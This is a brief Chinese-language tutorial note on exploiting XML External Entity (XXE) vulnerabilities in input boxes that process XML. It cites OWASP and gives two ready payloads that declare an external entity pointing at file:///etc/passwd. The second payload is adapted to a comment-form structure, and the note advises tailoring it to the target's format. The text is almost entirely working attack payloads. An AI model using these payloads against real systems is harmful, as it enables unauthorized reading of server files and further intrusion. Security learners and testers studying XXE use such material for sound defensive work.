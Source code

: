 ## 对于XXE漏洞的利用

在有些可以运行xml的对话框中，可以利用XXE漏洞，来查看一些文件
[这是原文](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

```
这是将passwd暴露出来的例子
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
原文中有更多的使用例子
```

但值得注意的是原文的例子不能直接拿来用，得根据对话框的格式来进行相关的修改

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
comment的内容就是的随机应变的内容
```
